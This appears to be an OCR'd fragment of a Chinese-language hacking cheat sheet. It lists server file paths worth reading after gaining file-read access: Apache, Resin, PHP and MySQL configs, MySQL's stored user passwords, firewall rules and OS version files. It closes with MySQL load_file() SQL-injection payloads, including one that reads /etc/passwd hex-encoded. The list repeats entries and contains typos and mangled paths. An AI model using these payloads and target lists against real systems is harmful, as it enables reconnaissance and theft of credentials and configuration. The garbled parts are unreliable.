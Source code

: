 >
> c:\\Program Files\\Apache Group\\Apache\\conf\\httpd.conf 或C:\\apache\\conf\\httpd.conf //查看WINDOWS系统apache文件
>
> c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.
>
> c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机
>
> d:\\APACHE\\Apache2\\conf\\httpd.conf
>
> C:\\Program Files\\mysql\\my.ini
>
> C:\\mysql\\data\\mysql\\user.MYD 存在MYSQL系统中的用户密码

### LUNIX/UNIX 下:

> /usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件
>
> /usr/local/apache2/conf/httpd.conf
>
> /usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
>
> /usr/local/app/php5/lib/php.ini //PHP相关设置
>
> /etc/sysconfig/iptables //从中得到防火墙规则策略
>
> /etc/httpd/conf/httpd.conf // apache配置文件
>
> /etc/rsyncd.conf //同步程序配置文件
>
> /etc/my.cnf //mysql的配置文件
>
> /etc/redhat-release //系统版本
>
> /etc/issue
>
> /etc/issue.net
>
> /usr/local/app/php5/lib/php.ini //PHP相关设置
>
> /usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
>
> /etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf //查看linux APACHE虚拟主机配置文件
>
> /usr/local/resin-3.0.22/conf/resin.conf //针对3.0.22的RESIN配置文件查看
>
> /usr/local/resin-pro-3.0.22/conf/resin.conf //同上
>
> /usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
>
> /etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件
>
> /usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
>
> /usr/local/resin-pro-3.0.22/conf/resin.conf 同上
>
> /usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
>
> /etc/sysconfig/iptables 查看防火墙策略
>
> load\_file(char(47)) 可以列出FreeBSD,Sunos系统根目录
>
> replace(load\_file(0×2F6574632F706173737764),0×3c,0×20)
>